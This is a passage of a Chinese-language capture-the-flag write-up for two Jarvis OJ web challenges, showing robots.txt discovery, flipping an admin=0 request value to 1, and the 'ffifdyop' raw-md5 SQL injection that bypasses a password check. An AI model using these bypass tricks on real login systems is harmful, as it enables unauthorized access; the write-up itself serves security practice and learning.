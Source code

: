   扫一下，发现robot.txt

  内容是`Disallow: /admin_s3cr3t.php`

  进入`admin_s3cr3t.php`，出现`flag{hello guest} `

  假flag，抓包

  ![8](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/8.png)

  把admin=0改成1得到flag

  `flag{hello_admin~}`

  

* Login

   ![9](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/9.png)

  改admin没什么用

  发现hint

  ```sql
  select * from `admin` where password='".md5($pass,true)."'
  ```

  `md5('ffifdyop',true)='or'6�]��!r,��b`

  输入`ffifdyop`组成sql语句

  ```sql
  select * from admin where password=''or'6�]��!r,��b'
  ```
